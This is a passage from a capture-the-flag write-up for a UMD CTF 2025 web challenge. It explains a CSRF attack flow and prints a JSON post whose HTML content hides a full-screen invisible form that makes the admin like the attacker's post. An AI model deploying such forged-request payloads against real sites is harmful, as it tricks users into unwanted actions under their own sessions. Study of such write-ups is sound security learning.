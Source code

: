 
while the other post has liked by admin. So if we make admin like our post, we can get the flag. <br>

![image](/assets/img/umd-ctf_2025/request_like_post.png)

Gathering all the information, we can create a CSRF attack flow:
- Create a normal post to grab that `postId`.
- Then create another post with CSRF payload and pointer to our normal post.
- Submit the post contain CSRF payload to admin so that admin by change will like our normal post.

So we have create a normal post already, let's create another one with CSRF payload:
```json
{
  "title": "hehe",
  "content": "<div class=\"flex justify-center\"><form action=\"https://a-minecraft-movie-api.challs.umdctf.io/legacy-social\" method=\"POST\"><input name=\"sessionNumber\" value=\"1\"><input name=\"postId\" value=\"6400f205-4759-4593-a258-1a30b64418ae\"><input name=\"likes\" value=\"1\"><input type=\"submit\" autofocus style=\"position:fixed;top:0;left:0;width:100%;height:100%;opacity:0\"></form></div>"
}
```
